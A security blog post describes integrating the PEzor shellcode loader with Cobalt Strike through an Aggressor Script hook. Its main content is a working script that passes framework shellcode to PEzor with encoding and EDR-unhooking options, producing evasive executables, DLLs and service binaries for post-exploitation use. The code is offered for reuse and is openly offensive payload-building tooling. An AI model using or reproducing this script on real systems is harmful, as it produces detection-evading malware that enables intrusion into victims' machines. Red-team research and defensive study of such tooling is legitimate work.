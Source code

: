 ```yaml
---
layout: default
---
```


_**Feb 17, 2021**_

# Generating Custom Cobalt Strike Artifacts with PEzor

Let's continue our journey with [Cobalt Strike](https://www.cobaltstrike.com/) and [PEzor](https://github.com/phra/PEzor) by integrating it via [Aggressor Scripts' Hooks](https://www.cobaltstrike.com/aggressor-script/hooks.html) in order to produce custom artifacts that will be seamlessly used by the framework when generating payloads on the fly.

![PEzor v2.1.0](../assets/images/pezor-v2.1.0.jpg "PEzor v2.1.0")

## Motivation

When implementing the `execute-inmemory` functionality, described in the [previous post](https://iwantmore.pizza/posts/PEzor2.html), I had to implement a custom [Sleep](http://sleep.dashnine.org/manual/) subroutine to convert the provided executable into a [Reflective DLL](https://github.com/stephenfewer/ReflectiveDLLInjection) or a .NET assembly.
But wouldn't be nice if we can reuse a similar mechanism in order to build custom artifacts used by built-in and post-exploitation modules?

## Aggressor Scripts' Hooks

The Cobalt Strike framework exposes APIs to developers for integrating custom, external tooling within its payload generation flow.
In particular, we are interested in the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook since we want to customize binary artifacts generated by the framework when executing post-exploitation modules.
By overriding the default internal behaviour, we are able to customize the artifacts in a completely trasparent way so that existing aggressor scripts using the [artifact_payload](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_payload) and [artifact_stager](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_stager) functions will continue to work as expected while benefiting of functionalities provided by external tooling.

## Source Code

By checking out the source of the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit), we can understand how to override the default behaviour by declaring the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook.
The framework is invoking the code associated with the hook by passing in two arguments:

- `$1` - the filename of one of the default artifacts' templates to hint about the desired format
    - `artifact32big.dll`
    - `artifact32.dll`
    - `artifact32big.exe`
    - `artifact32.exe`
    - `artifact32svcbig.exe`
    - `artifact32svc.exe`
    - `artifact64big.x64.dll`
    - `artifact64big.exe`
    - `artifact64.exe`
    - `artifact64svcbig.exe`
    - `artifact64svc.exe`
    - `artifact64.x64.dll`
- `$2` - the shellcode to be executed by the generated artifact

Since we are integrating a fully featured shellcode loader that implements all the required output formats of the framework, we can entirely skip using the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit) by using our own templates. (_in this case the ones shipped with PEzor_)

Here's the main source code of the hook:

```perl
include(script_resource("utils.cna"));
include(script_resource("PEzor.cna"));

# Artifact Kit Integration Script

# Windows Executables and DLLs
#
# Arguments
# 	$1 = artifact file (e.g., artifact32.exe)
# 	$2 = shellcode
# Return 
#	our generated artifact
set EXECUTABLE_ARTIFACT_GENERATOR {
	local('$opts $format $payload $resource $tmpfile');

	($resource, $payload) = @_;

	$tmpfile = get_random_temp_filename();
	write_file($tmpfile, $payload);
	$opts = "-sgn -unhook";

	if ($resource eq "artifact32big.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32big.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32svcbig.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact32svc.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact64big.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64big.x64.dll") {
		$format = "-64 -format=dll";
	} else if ($resource eq "artifact64.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64svcbig.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64svc.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64.x64.dll") {
		$format = "-64 -format=dll";
	}

	return read_file(execute_PEzor("$format $opts $tmpfile"));
}
```

As we can see from the source, we are simply mapping the filenames used internally to PEzor command line options in order to generate the artifact in the appropriate output format. 
The complete, updated aggressor scripts can be found in the [/aggressor](https://github.com/phra/PEzor/tree/master/aggressor) folder on the PEzor repository.
